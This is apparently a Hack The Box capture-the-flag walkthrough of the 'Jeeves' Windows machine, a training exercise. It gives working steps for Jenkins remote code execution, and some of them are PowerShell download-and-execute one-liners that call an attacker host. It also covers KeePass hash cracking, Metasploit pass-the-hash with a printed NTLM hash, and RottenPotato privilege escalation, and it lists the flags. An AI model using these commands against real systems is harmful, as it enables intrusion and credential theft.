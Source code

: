 ```yaml
---
layout: post
title:  "HTB Jeeves Windows"
tags: HTB, groovy, rottenpotato, john2keepass
---
```


# Recon
1. Nmap
```ruby
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
```
2. We Dirbuster to find out the directories running on port 50000
![](https://lh3.googleusercontent.com/_afaZLU2r7PSsRJNlxpfM8UkyjsVbg6g8-1q85Q31pA-5CB_W0-cBRwACFTsE3cod1P26WJo78fFhm3EfoTMnTRoUzNeu223cJ20e1OGONEm8cr4S32otLqEsOEmdKU-va4vkY8eYdc1yCsL0H5tTxNEs5G595qg540jwIVNptwK2XqpEf3jtUgdMY7dt-wPnFLbydXqY05RKIRAvS5uCc9gzmYazY2XIDJY4ytIXmW-z0rGHLZeYilfeoZGdkaY5ei7P8ja2Pv2SL4aPq2lINQL5zS7_H18WLcY-pGSGe9yooMTpZlH5W45fsqn5eA4daF0OZ8bGnSBJJeJTyJT05KXz-CGwsJtEWxmbyTJzrN0IhkEE5nZl0XJ1gPTzuv4kNDFP1OvDefKYTLL3fKxJZZoVKtW7SJAdye7Ul6NimfGXyGvGnrdJIi--lQpKuS9wilTDRAHw6R7pWc13AjelcsL0LtUc-1s8tDxV02KJm-KdHXEDXUviW5n915DxNK8gfRnCdnR5i9qtiz0rqaB0F6kJ114EhwwC4qMKfnyu42rMQbGrebQXGLQRqY2-O41EG7Fp5t_NgJFq3Ulin7nbT3NzRfqM8N5SuCwPYhCqQBlsWF824xZzqonarSURAPU0hAoBmsF-UWXB0HfV9m11tdDJU-OycSAgW5daX-ty4aSU2LiT2a7IvA=w584-h209-no)

3. /askjeeves/ has a Jekins app running
![](https://lh3.googleusercontent.com/Jj_T1StwVe2aThqjKb8ybZ3Ythca4n9qyXUwzI0SnGlu_QoIU1wknCBMWre8iu7hq7qx27D6Ypo_rGBWsguoiwYiEnNMpYlMirqT_HUIzl6QQcoS0bbg7oLsAfc57D8iOVkh9sUiOzVxJ2TkPTa_TIUhwSpNhZE5OHkEJwKiZJs5VCuV9hflHd5vXp4mM8iDlhdEMYotLpDtuQRxxjwXotZyfQtWy59PAcGn1mzTPyTbBNwxkIBlYf_HxMXugwl8P25YDWc8Gqei_npEvzSFTIEwGrbdy-XeW-jk0HZoJ2TwherUMO01qV7ITn-v4_uX5GbLhgKP3iMqy2VqtjYGNVRn28nseTHok0AN9sRcoSIyTaPqUn_-5ErL2h3_JIipQSetVYsosRv55wCUVji94bKP8HDPnKuhGKwt_87D9E2SRo9OL4sHs9EaHsBzfxVmZSEDK1pZJ6NEhZsOmzWeuOjjOpXOojvpP32C09eKfymOJHtKTCZ_PR2Edr9xSVuewwRZ605eCjPYjbkTU5FN3zjoKinaUTkCreIqnc_AIVmNp2fwDtYtS_AdWCg3gJJ5iaWjB4sxo4iKw1D9Pm2gzYno3pJ8exVsC8aDZKB7uZU9UWH4YMivbUSS2HjmJz_cLeWBUDEirs-8FiumgfXEwQuabGMbi5cjEHkDilL8PXhLXPtjEGoWqEA=w632-h364-no)

4. To get admin without authenticating:
```ruby
http://10.10.10.63:50000/askjeeves/securityRealm/user/admin/
```

# Exploitation Method 1

1. On Jenkins create a new Item “Execute Windows bash command” and select “Freestyle Project”
2. Select “Add building Step” and select  “Execute Windows bash command” 
3. On the bash console type:
```ruby
powershell wget "http://10.10.14.14/peterpreter.exe" -outfile "meterpreter.exe" 
```
![](https://lh3.googleusercontent.com/YDkMzr-vtiHmFXOcfFhQ-jH7jwJHqIA4mG4VtCR5_4V5ddTdi5DNFvuYu0_iUxyFGg0mYeDa01p2dWkin60m-wXyvGVl3T2jdiAD9fkGPeCyQRobjP6idpoJ1euKxPaDeQpy-KF7P049lf4x61VASqfhxHpgX_Te_1K7_KPRhIUCwyOzxlwtcKH5y891IF2gyIJk6qNwPyGUgfypQLVWTBzUksJfSUE_dfyOFUWeUVQtK5dSw4YHeNRKlHUu_wZkRf8uRfpuiiCbZnCrYJo08-ZVSDvq7WLYLP7_sfMQvybWlsuXdM8ey_4fyVJutkeu2oYdXRDtBOU22ZROYG5N5kXXvo-8dfKJlhJIC_LMCmEbO7vYjekIXCfJUnHfGwvuf92By4OASnShb63mQpC0ELRs0U0u5WYWkAWBKJdYrxLabjuwjt6dqT_PIjeq9wbrdLlLvN0Zt4ylq_wiyrMLLdrs-EecKC-BDNc24pwU1ZQA1Xkg3JNWCzAYWKV82N8E5QfKroZoWkgWRspDH-x-r3_Y4PFNMBzG7NAhDh2FHsm_aUZgXZubmhmbdAkRfSg5oGgrVTcCdDVhGPYFpglpjAX_7f6_29ZLRUWzdAf29SOyfeDORA_g6Wnu9sY32BjpIeKENlQKpSVjiz9UwepfZDeMxUq_7_HHO_tWEu7MDk3T5Kf8TrIGo9s=w970-h314-no)

4. Start apache and place meterpreter.exe file for download 
5. Set up multi/handler
6. Run the shell on jenkins 
 

# Privilege Escalation Method 1
1. Download CEH.kdbx keepass file
2. Use john2keepass to create a hashdump file
![](https://lh3.googleusercontent.com/9OJrTvzMPP3i6evtNryFb5qTsbZ6hYuMsMxVBMCexwdiFRNtLMd5FDONHlZp29jVycy-DZm5HfJp8sOJMucFUtKf4CyUFQ5eFgS7vfP_IrTF8vFrMomsv2y3RkN3O1LvhsqlwZ9-EoCTWAHNOKHamfJXGx0REoXq4ZAvfawWAfFltjR7pClbmr9thvwl861bHfCizrQfyctVoHuVthL4M9C56d353wTSv_ZT0C3M0CKiQ3PVva9lwEIUQkSXsDLBP_MoVNKnl2j5tfgkJ7RLwu7awrimMRsmUmZZIKhJQYxG1nLgPaSOO8jnGS4cPCP8ythKmrJPbamj_aukj5Js7dX7uplGdBLoIZ7eqvp9ynhUpypwTMUz1qV0blONEDMI0Z9DAv21mupuwy9lgEhldxUGSbkWWCeNCD9wdXgARa68Fj_Z34ymA5deD938PrLFwZNW-dK9atiHSty3PuJZ137cSjJJeCE12eKr9T5-vMPuPCoqtsPbQPBFnRr0rPcKsXVPVkWmRcG1uS4ut7fdcTOeKWcGRpY6qoX-RGaGcjosh0iOmI1gWGplcIZ13ets4HTdUOBTqYbYtf4VwNSzeHakxkzYq-QvogDZoGfQ7pIWez5zNa6eWHy9Qyrkel_So7jCZPTCupseRaP9_fjg2EBzk-7i-fsNSb_-741OtvOmM0MErJ3yijA=w702-h41-no)

![](https://lh3.googleusercontent.com/V2iiPSYdkJN0xPncus61RGEf31aNjntGxobvD15RWQ3fUoJzXke3K1Tue5ZI1Bj2bTo6v2fcASLwknkVEGR7po5ilL5n2hes31D_H6W8AOCr3dW_R3DbkfV0CccSpGIag-f7nfhVzWw74n_CwbpL4jgGPh7apMcnEqnfrGytrq35ancCHvjt4eVcPTTqqfkxNcfn0uWbUTL3TFGH7BMxf96l8SypVKWsSizSgGu6SzkDy8qwHPeVc8PcvxZaQMYBgfgJR12zwEjzEEeOPKBVbn7QHbtk2ev43cKlOOa8sG9u373O7f4_oKZ06XM7OktzPVmt0gFkxm46MLnvZdtbrqs_iCgW0FIsp5SiITAtU3kkEa4dm2RkB7ZbZuc4apRbVFN9aIYUrxAg9R3T5dAV_fomwvfr0xMAYpTfShNPUCXfu_Q6FAf7q4nyy2saITO2oFe7NTt7RYAkXqc1nuIONF5v-iGDG9l925kQRN_ltKVmeS30Uesla1b2SyiEGFkisnK523pzz6P0BH2nsegS3Ajgj6miEXUZLkViGgFWsU1snZqOe7VDZiZjN2gN8dDD3YWgWmOn420f3ATQULPWRakbezNnOPDpiEC7pagobe2gpcg1fr8_BuH-9Y9NOMZJSMQCecRic3bBYdtF6gJNfJJdBmLXuW3A1jQs7JhxwA30pr6EAVQubFg=w1345-h92-no)

3. crack the has using john format=KeePass and wordlist=rockyou.txt
4. we obtain the pass : CEH:moonshine1 to load the keepass backup file
5. Install Keepass2 : apt-get install keepass2
![](https://lh3.googleusercontent.com/Islqk6gH29nUfCHj6hmq2q71eDb4v8npwOjXZH-YWU4PXsKopusOcWfZpf2bVwFKsoSaoNeWRc82p7xuMjyZI3MmXMqLDb2f2B0wGH19CIQm5V_rsxOajEFUN2On2LOzpFQA3PwwsYW02m5v3eeLUNbYVZYZAm9NJlfqjnJRKC1uHWapMeWIjhhlV2pFT_Aqpq2_E_t6SXiwiBP3IF37eCHgndzIrHCy0fZ6rvRxxr47NRBjkj5UvwhHuyI6oDH_PJvpjOOuyLpuJ4BkG33cdIZZWujGHfweBdZqNVkdID3pLb0wZbAuwcPq_yQ1wluC3QbJ9acLlI_9FZV91d-n6xGZOlAZiatAf6iMxtC4OtjwcRSaEdYYg1fdm_k6o16WkAktDww9rRjmkvYz6tBAtZsca4TG3RHimXsxagR-lQNMMPRMZLAPP83Z6U-TjCEWhlatFs2tMtTSqMxkdlXhmFTx7E1N3kCVOPE2I89I3vNLVnaKtw2KjzTI7R0zP-INNBzP-cVAOOjKip05lrlI8GS_iFkR5b6SV5hekOTC9fqmrb5ZTHq4WsKwoPB48kvBsJVqXuyQi0jjMdha9zMuFV5QxQK4-v4P0xXh3pywPSf61DRGjOZPKkxjm0vEFilKOftQ1jGHKtsSqtffwNwwokLPI87u3UdQRonyC-dpaoSoW_jRvuAqQ5I=w880-h380-no)
![](https://lh3.googleusercontent.com/yESheUKzZintmFdhx5grIB2zb4xqmTSHK2WESoOWO4f_BREzErS47xF7urY02sxJ6y6IQRF3hXu6cNg0JjTM1iI6-TWS8cj9wO_qijOF_BcZVsEysvmuv321r1mhSfAXCYCQingIrtmwmTkcbmhl_QSmFIapTtKkO6A7Fx6eTcBOWlJGJ4zA2Jr7SfXMri3Gm5A0GbSx7HnRLmzR9LLwJ-tLp5vIHg_pBLoft8bH0c1NMFqiPlebp-KWeK7JSEDT_i2HCk7nDT2Naw9Zwpl3_PyYIS2BNfvSclSNZNq4_IV4kFBir2e6_MHnlSFH9F-v42hxhXnNXAzFHOYIm2DPmfOZ-_aQ05bStVMjDkT8ZmcyJ5lYyFXeLGthuMTcedri41MKxYrquY8pPzNS25Nv-dXjOFx10wjg3j1kXvO5vz63xxWKyiKozyWOTaCLidmHMNSRO0Rc4iCzbNvKfWNErZc4pr5pNlA1cCCXNtkik8cpfNBeLfmjoSW0l_L6HZ71NBcdp65OphiFlHj8l8SKyX966PNokooYu4ND59OqZGUdIl_jb-7GAHe0Oj-2_ZEi1EYf00fgikl_SYeVO6UaQbsiw_c_yFhB4rgIjUznoUuNxMZ7o2ad4h9FKHZyWGOxunKXVfVNgmv5-wBOk3zUh3Mpy9hHk9E2zzZfouiqjJNbKS-Tj-cLg08=w665-h271-no)

6. We obtain the admin NTLM hash: aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
7. Using msf "windows smb" we connect using a pass the hash techique:   
```ruby
use exploit/windows/smb/psexec
msf exploit(windows/smb/psexec) > set rhost 10.10.10.63
msf exploit(windows/smb/psexec) > set smbuser administrator
msf exploit(windows/smb/psexec) > set smbpass aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
msf exploit(windows/smb/psexec) > set lport 8888
msf exploit(windows/smb/psexec) > exploit
```
![](https://lh3.googleusercontent.com/eBGePb4dnYzjoWMM-uXeEVgU0B46DEP9OgC_jyx8zfjsLP751XG5pEewQIpctBbWS5_J8PwDD5jVA-KrKoV7QgQxgWd0W6m-71PKfePq7xgLdVMytDA8OiAL-_koytlRo-5RaMwu8iZc3dIsHmq0hYVxvDMaxzyeH_DjcDl_hAJqQ1sDZLzaVX7tAth7l8yWfvlcvNoOPQ2ydYo5QKMTd4HbsnwacR5PzQZ12NIPXsRRJWwgkpHaZvTYLU2A799DJXPJLQZjBoe1K9WY8bGyn8Ecd3QfBXFVuLVHPdpS74V7s7H_01iEgGVk6d39JKRcoHZxIyKsH5TXzcWFX_CSCMyxRZTl2hUw41VvyXQ3sd-XavvAn4XPNEcioBey3fJyzLk89FED6qEMUnriqdnmQ-DXtDNjO6lfJwG75pDVecQrck1ou6IACPABkJTqvbk6-_uWNcASpUYnNGhKUb0Hk2E95Jwl7BH_lSKNGGI9arxIXDLe-jHREUdpRCLfwLx7yV5bPQfCtY4zPI3ENM_AUGGr_tl5QMXmKNo3dVlBI8Cy-BuuDsx3MOmV5QvBLF9PXfj9EXHA1nle7ahUKbgQTxByBQZ-dcUCdBCPJBaLkzRbELxKX8nQGGXcxjA3--NYeMvx8DJB5dGFGO4-sLeou4CMl1UA6jxc7Zumi272S3fDpfmbbWHcU1M=w800-h135-no)
![](https://lh3.googleusercontent.com/jkBEIkugszoadzManrJjWgPSIbhMSZ8GCHx1CgbEUGvemic6IjOqB0oLqNJ_UZi9o6S2uEOpWKLS8HZqiNRkh01l3dPXAslRa4bbVsZcZQpFlz_WKW8_WcnH2iW9pOAhyEmUzWb-AxmsCldGiQIJT4t7reDBZeJomaNh146EKAgSjFTZvE8_oMV16MmhKHvPRhUQyAGzFQwvN2gqvu1SWiwVfZuXy3JembymELFzWpITfviVRZHOFQM6qLTZ2enZWELKBixCIkXoDxXOs5qNXaUJuNUBCRLZMUp52D3xncwImlnXN_oSHV5tTFS4ymRinMLIKiavRhAbbWkBkUVHShKOjcVfxpAihdt0Lb1oTcGy58xqfggYpruewA89FUp9SK8K-cHRG-y-SfM0HsouT5c9zu-CW0v8gx5zCR3r0Wqhq77A9C_PV4xkpgeTQdfTx5rV2CUROlN9TSaYxGedNUtZWSznAWcRbBEFyDzYQyTMrgUuJ1PCYN5IUDwKSywX5HYdwcMvdShwlNn3XHLM7wOLB2r9lSc0YeKiVkm_m8MhLxs0DnoI8vyXYCJBoKfSs-dXlirhkPP65i9XxBh9_PZj1BL1pOA7Qoo2AG9VAyQiZ1NZuU_fGnhq8HDA2jeVLB2GG-AdecuEMF9wM0t-AwQ0PaoySeJ4SsnfAuMqJZFnW3JIBHbv9EI=w1027-h250-no)

8. There is an alternate data stream applied to the ROOT flag. to view flag
dir /R
more < hm.txt:root.txt
![](https://lh3.googleusercontent.com/xpd9SOEyI-JiReW2JbioAi5AHMCFGy0V0tHvKOvKTVGHz_cFIYogPb7A97ebQStpAVXRvvO8wSzkWQ8-RVjdsPBPuXU3WXIu-1F2CCcJB6NJQjm7i1FFZoM6yRXo4OwLSdLemtzVfa6FkZ01TK_YqR8Ek88JQDalshpNtugrdYquLhrOaDaK2knsxfvJCNVmFzvBM36fNmerXk6v1rLlGuZ_XHYU13qbQUlJrBB03UCCp3KSxXY_5njK80QIFHOAvrUlEOsg2GgHXiRY1PJys_OQ9QOkIDmOTbSGPm10tImD1CAoulflJDb7FYywwHTgU6QYHCgvgkmZ7P8Z_4O0YKmdko7PG-QPWMC2Z1hEsK-bcJzzLR77tsxXslJjzzmxDcbYAOAoGqov0cN-GeOln22HWPmRN0DujJennCg6ARTRuiWK1v6CHOAq2gChBiH6xYqcU9Lw_HigXJV0dc70_E9q3Cj8MpEjevgZdq2DXk0T9892WvKy562S_aOQc4OexG7_kiB4M-4NqIGwGS2YK-tkxFeXI5lJHOfPlSAkdbJl27L6tFsfFyxxFIXcYgi2n0Z72pKqVd6Isr3ci3MnDlFFmkdyUnEm3RPD_uH7mMaxpT8ZPLTFBU41wkIuvixCa0Cr6fSvTnMfmnOhxvK4v6H5mgpNn0uS5FuD1b5LwhMz_7vaf1S5z6o=w567-h457-no)

# Exploitation Method 2
1. On Jenkins, create a reverser Groovy shell on the “script console” under “manage Jenkins” tab and run it
![](https://lh3.googleusercontent.com/FQ5o3fWatVzanE6muqXIeYxVxlS8jQPi6Bv8_U5FUys52OShe0tsZ4D6rlHXkyLFGibxeeLQRIHHcyoBpviboovTRMaBXEqb6o5THcYwj61z0rj1JnDcdDkV8dbvp7PD-cm7xzZgpMWPIpRXZ0xs6MYARFaQI4jUb2tjIC2KM2qzWnPFOkHES1Lgdq88OEtn-2mdg2uNf3fa_6jal1iQP34tn7m_JjvE4ssIVQWENE-F_bPJ_C-jPvohYjL_5chRkq1Kx_LKAKMyaF6e-msKgVOSaSEySgrhC3c6vtmUFtD5hSy4EjrxadEcsVs0m_QcqJxcBLLdAbGCeu_AgXzHuThcB9yozRZLTHi5NRipm6cmE56XYLGM4n-7wcr04P7IT5EPjbblF8bW5eFBuCx50z6fOkQTNbVyqJT-UAj6flFYpgzepqkJ_iY2Gd98EO6pPCMyh0-TSfGozdMyfSYCRns0eDiEK3em0_IJDtUSTcTtcr9MtcumII-3hTZbIKX0mWotQ8125hiaM-fnJT4iBlFp0obvK7sroscqZn98mpa65Gy_6iOfHml05eIVQZxiM9gAV1Zm7j0itM8Q95oXnOys2HJyAakhnqV-3CX8cz0eIj9ZxMBZ97MTo7IfaWprlmx16hOODWA5PVCzyxXb80MXjzLVhwZ9Lt9n9QOYg81xVttQpxVmPKI=w503-h125-no)

2. Set up an nc listener to recieve the shell
3. Set up a meterpreter shell:
```ruby
use exploit/multi/script/web_delivery
msf exploit(multi/script/web_delivery) > set target 2
msf exploit(multi/script/web_delivery) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/script/web_delivery) > set lhost 10.10.14.28
msf exploit(multi/script/web_delivery) > set srvhost 10.10.14.28
msf exploit(multi/script/web_delivery) > exploit
```
4. We paste the following generated code into the netcat listener and meterpreter session should be created
```ruby
powershell.exe -nop -w hidden -c $B=new-object net.webclient;$B.proxy=[Net.WebRequest]::GetSystemWebProxy();$B.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $B.downloadstring('http://10.10.14.34:8080/MHGDnJdwHT');
powershell.exe -nop -w hidden -c $B=new-object net.webclient;$B.proxy=[Net.WebRequest]::GetSystemWebProxy();$B.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $B.downloadstring('http://10.10.14.34:8080/MHGDnJdwHT');
```
![](https://lh3.googleusercontent.com/cWUwdooZ0YmIq8lxngjJOvsdkv12Wn4IHBeoHD_JyecTa_NWPth3Smo34rumlM0lWemLXHI4yTHgA7ckuq9mJZz0atCu8Ehaxjr207WEBVlpmzCJUgRK-aMFfOVZX6nCs7LBF8QdYQwPtVsj-l8ppm8g5qcswPARi83sk9PY82rTABlC1IH6jWpC2wF0HwPI6bzV6rwSYRKcdq6jw5y3FhQiaRu9UEvEOAK6uVpTcIdo-0f7G-68Qoj9d2YFPxGPkcvFwnGFMu4MPDYQVES6a6HCAVI4ForSBJdmZFi83obZYVcWhMSXCOEzwaF3ru1PwextetH8J4KkVqzfu54NIchmHzzItE0opaMcld6y2_Zk41KqUx-BbGrWR4lqzMrI3zV_J6UmfMrm8QEgRds6CUVWiGTRutdEXkPaPTfegCDKMwQyQ4ntls48u_if0mXYgzI4cVICHX82HirOYw8gnFjnB_r5avyTPOUh3PpAw9t4pLVvV_hBzKuSIuXNxZ6i9pPD87B79rr4KKn8-FkaJGv0MsOjPVYe-EW_YgVzT-955tZM-NK7Xrk5KkL874ey0IxpzsMdouflQkOJDu0gtaEsHOmE-IzB0AbbcTYgZRur8B3aNNV7sKxhkihedFuiYSLCmR4_oTSpW_Eq9rMblbUXywBvVfjgvAzPSr1wAM54O4qtgGWU2IM=w601-h240-no)
![](https://lh3.googleusercontent.com/4geGjhzpOMMJVbYdiXGbEOjRrG6fsO62THAFzVeRBt82R4xT3T-D7Te39MY-_8V-gmute5NX_tHh89Zkt_f2YCjem3ibxspd9VzBRTMHE0rTotUSvYzBNbvJ4mX1C3XzSI9d_Dv0sm44DQoYkfRI-TAsqBNJhAG7XuQ_YJQEiLU0vOD8ONN2h0NP4RZGQbLUTJM3JoZsr1v4zoJcM4opPthsqa3eitbAPsmgb6DJTL21Z-mYiiMsemkoVRtqITd2QbXtUZH9ye6UsJZJCGYcEnvCQ_T9rl5mSBWtYFq4Nb_bQIWB5K-xhwegATF79SbfgOb0jfBzAt16Htwoqyym9nt-NyHUzhynQjaO3ouOvLyZAIS3Y8B4gDO6B6c4-X8dTHLXq_o6x7-3tScUfgw7EaWhhHTm_6rQuwez7g_o9zh24RgCi-kgjlHrwev9KwNRU508Dog4Ze3JVeewLX9OUXJ5DxBMm7RkiuLQvHdeBnvmzYAe3d3htrIFuJv3TEJN942rxS1uxcBb5HhA6wO5arpA8OiWK_8Bd4VGQbwEjVpnmnjDECIDkGV41CSN1B1ZvQZgbr3qHgWH-WYn-WCXQB3Zx4tuR-xDj_fvRt3J3VzxUZ0ayTwTBHDBWr_BHznKcs4N1YdzecsLIpQ-EDlvIox7Ojzzyq9NHFXefheTVbzxgCSv55UU82k=w627-h269-no)

![](https://lh3.googleusercontent.com/SQMm5Heeyenkw81qqmiX454UcyGRe9p_VcJfniTFz0RZCHnL-QvTifqdbCl6dC72qSFh0oRG0h9V3vXkbpoD1Koa1HHTdn0qSBpaNNdgkEUNVp6jsOXPcfmCdD1yOLZ_iTcU2GxL-TadvjMiCjqvTjEcbn3Q7U-4SBOLAFKLbbXfFB9zEGhuGbNPgxqIqU3JOn_2sWHKNaGpJ3bKZw-jM6_SxRtEkuWhXWi3Rb7AAv9t5ES94Qs3T02yGCbuWT93dx82vDNPFLAnSfrduEuaonH8evQRczYeGg2Swk4VdE1Ceg3AUq35nH5a4eBgOwGWIxYknK_EiGo3oWqnUxCZSp2R8dNwtrfy-qE9U8PkJyYpwGVI8F6o4sZNFqOm1oUKYBr0Vn7bM2pQ_qCIQ7_CLI-Nr3RhqG9LQsJUiZ7u3gfpmIrW0oLFBPDfWF6t71Y9wVS5mpNSt6qvwHLv91affyrzYh2UI-pMK1FIXsLPelY8RmHlr7sYD28i6-i-xT5FJDTe6mdsm2rOHzoN_6TTXjBKh88hFb9aloCEeiwaDEGNQvrMiFR9jU_RZkqh_ZkXyshCIorKF0SDR0nOP3ZyCn41NpEyAe4taz17ArwaOLa80lNNLj5D-_u2HoZ3O-kPuKcS_ukcQtF313X0dcHJ7Zjs-CXJ1-Bpxi1IPVPzwzLGBjW0VyRlKKo=w1134-h331-no)


# Privilege Escalation Method 2

1. Use Windows Exploit Suggesters
2. We use the Vuln MS16-075 and we upload RottenPotato.exe to the target machine
3. then we load meterpretert incognito: load incognito
4. we execute the rottenpotato.exe file
5. then we type:
```ruby
impersonate_token "NT AUTHORITY\SYSTEM"
```
and finally we get root level access.
![](https://lh3.googleusercontent.com/zBWypHEBhLc6rJr4e0nfdaRSeTA51f4sOLArH4Jz_UlHQR7wxJ90Lsz4ohA_CoQv0AIDnwycooSnaCz9CqBnRHbzA80EkXYQa5cDtEIaCr06jkCFDl9P0Nz8n94mriplK7pPnNix-Pqbl1XHr5V4lnkVIHBch-K7NoazKkcKnxk9lsIwJcVNc_6w9JAy7muxtJHZnk0e29zCjKQnzJKtSb3Fmq-dq1RoeHWBiT4yv7bbehtyvzSUHhDCrEC040zNh5QNeUMNyUikSoylSkyk5b1sOks-qb5JuwdNAQPqhyPfjNcuPB9vs4ARnBOHwZtPZ6ML9fkYCdkhTYx__nEj1hxXPwXX8lSQMU6DyfVzsL3Yig6vlHFtvoYxgyUUlUx7cknjgoLm7ZYTJ6KqhiWmSFhb7cAjZpLC07V9_h90PReJ7KgFP0CQ2cXUOZpjzzrf5-nqDhbZXh9QAFJ7qbjRqeQ6c-E9aMn6dkdV6ONRqMrbw9P3HI6tGonaXaRa6tl4mYfB2aKQHf5t_uQ9oYzIdPGP0vz26cLW4wS2cm-wzGzn1nN5228YVD4Ju3n6q6xCGolE9LMzyPc5H_RACVnResBfUgvp8O-jt9pC3QrSy16t1kb2h0d8aNjbgonKh2J7wKKz4S7I8qx7BnkEyfH859uIb3V_1Ef8GlyEytzBJMf-q7x9ZeZOXxA=w656-h308-no)

# Flags
```ruby
| ROOT | afbc5bd4b615a60648cec41c6ac92530 |
| USER | e3232272596fb47950d59c4cf1e7066a |
```




